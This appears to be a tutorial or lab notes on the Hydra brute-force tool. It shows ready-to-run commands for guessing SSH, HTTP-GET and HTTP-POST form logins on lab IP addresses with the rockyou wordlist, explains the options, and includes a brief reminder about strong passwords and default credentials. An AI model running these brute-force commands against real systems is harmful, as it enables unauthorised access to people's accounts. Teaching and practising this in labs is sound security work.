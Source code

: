 Hydra is a brute force online password cracking program, a quick system login password “hacking” tool.

Hydra can run through a list and “brute force” some authentication services. Imagine trying to manually guess someone’s password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.

According to its [official repository](https://github.com/vanhauser-thc/thc-hydra), Hydra supports, i.e., has the ability to brute force the following protocols: “Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, TeamSpeak (TS2), Telnet, VMware-Auth, VNC and XMPP.”

For more information on the options of each protocol in Hydra, you can check the [Kali Hydra tool page](https://en.kali.tools/?p=220).

This shows the importance of using a strong password; if your password is common, doesn’t contain special characters and is not above eight characters, it will be prone to be guessed. A one-hundred-million-password list contains common passwords, so when an out-of-the-box application uses an easy password to log in, change it from the default! CCTV cameras and web frameworks often use `admin:password` as the default login credentials, which is obviously not strong enough.


For example, 
`hydra -l root -P passwords.txt 10.10.250.4 -t 4 ssh`


```
Tool install command:-
	sudo apt install hydra

Commnand for bruteforce a login form (http-get) request:-
	hydra -l bob -P /opt/rockyou.txt 10.10.202.79 http-get "/protected" -vV
```


```
### Post Web Form

Ex:
	sudo hydra <username> <wordlist> 10.10.250.4 http-post-form "<path>:<login_credentials>:<invalid_response>"

|Option|Description|
|---|---|
|`-l`                    |the username for (web form) login|
|`-P`                    |the password list to use|
|`http-post-form`        |the type of the form is POST|
|`<path>`                |the login page URL, for example, `login.php`|
|`<login_credentials>`   |the username and password used to log in, for example, `username=^USER^&password=^PASS^`|
|`<invalid_response>`    |part of the response when the login fails|
|`-V`                    |verbose output for every attempt|



hydra -l <username> -P <wordlist> 10.10.250.4 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -vV
```


- The login page is only `/`, i.e., the main IP address.
- The `username` is the form field where the username is entered
- The specified username(s) will replace `^USER^`
- The `password` is the form field where the password is entered
- The provided passwords will be replacing `^PASS^`
- Finally, `F=incorrect` is a string that appears in the server reply when the login fails